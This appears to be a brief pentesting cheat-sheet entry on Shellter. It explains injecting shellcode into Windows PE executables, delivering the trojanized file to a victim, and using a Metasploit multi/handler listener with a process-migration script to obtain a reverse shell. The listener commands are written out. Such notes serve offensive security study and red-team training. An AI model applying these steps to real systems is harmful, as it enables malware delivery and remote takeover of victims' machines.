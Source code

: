 # Shellter

> Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created. It can be used in order to inject shellcode into native Windows applications.

Once Shellter is spawned we can set Automatic or Manual mode. Once selected the mode, we will provide a PE which the Shellter will embed our payload. After transfering the malicious PE to the victim, we can set up a listener along with an AutoScript to migrate into another proccess to grain a reverse shell:

```bash
use multi/handler

set payload $PAYLOAD

set AutoRunScript post/windows/manage/migrate
```

**Note:** Some PE will give show an integrity check error when executed.Take this in mind.
